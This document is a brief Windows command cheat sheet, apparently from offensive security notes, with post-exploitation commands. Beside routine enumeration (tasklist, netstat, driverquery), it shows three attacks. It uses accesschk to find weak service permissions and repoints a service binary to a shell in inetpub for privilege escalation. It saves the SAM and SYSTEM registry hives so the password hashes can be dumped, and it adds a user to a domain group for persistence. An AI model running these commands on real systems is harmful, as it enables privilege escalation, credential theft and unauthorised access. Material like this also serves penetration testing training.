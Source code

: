 # dos commands

## see running service processes
tasklist /SVC

## windows services and drivers
net start

## installed drivers
driverquery

## active network connections
netstat -ano

## show environment variables
set

## access check sysinternals
upload accesschk.exe
```dos
ac.exe /accepteula -uwcqv "Authenticated Users" *
```

## services sc

### enable service
set to auto start
sc config SVC_NAME start= auto

### set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

### start service
net start SVC_NAME

## kill process by id
taskkill /f /pid 1234

## admin / system
### dump registry secretsdump hashes
reg save HKLM\sam sam
reg save HKLM\system system

## net

### add user to domain group
net group GroupName UserName /domain /add

